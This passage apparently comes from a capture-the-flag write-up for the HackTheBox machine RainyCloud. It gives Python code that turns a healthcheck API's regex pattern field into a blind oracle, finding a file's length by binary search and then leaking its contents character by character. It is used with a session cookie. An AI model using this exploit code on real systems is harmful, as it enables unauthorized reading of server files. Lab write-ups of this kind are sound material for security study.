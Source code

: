 ```python
    a, b = 1, 100000

    while a < b - 1:
        m = (a + b) // 2

        if test_pattern('[\s\S]{%d,}' % m):
            a = m
        else:
            b = m

    length = m if test_pattern('[\s\S]{%d,}' % m) else m - 1
    log.success(f'Length: {length}')
```

And  `test_pattern` is just the function that performs the web request to the API:

```python
def test_pattern(pattern: str) -> bool:
    global cookie
    global filename

    r = requests.post('http://dev.rainycloud.htb/api/healthcheck',
        data={'file': filename, 'type': 'CUSTOM', 'pattern': pattern},
        headers={'Cookie': f'session={cookie}'}
    )

    if r.status_code == 500:
        return False

    return r.json().get('result', False)
```

It will return `True` if the pattern matches and `False` in any other case.

Once we have the length of the file, we can start dumping the file byte by byte. For this, I used hexadecimal encoding to avoid issues with URL encoding:

```python
    content = []
    prog = log.progress('Content')

    while len(content) != length:
        for c in ' \n' + string.printable[:-6]:
            if test_pattern(transform(content + [c])):
                content.append(c)
                prog.status(f'{len(content)} / {length}\n\n' + ''.join(content))
                break

    with open(filename[1:].replace('/', '_'), 'w') as f:
        f.write(''.join(content))

    prog.success(f'{len(content)} / {length}\n\n' + ''.join(content))
    log.success(f"File saved as: {filename[1:].replace('/', '_')}")
```
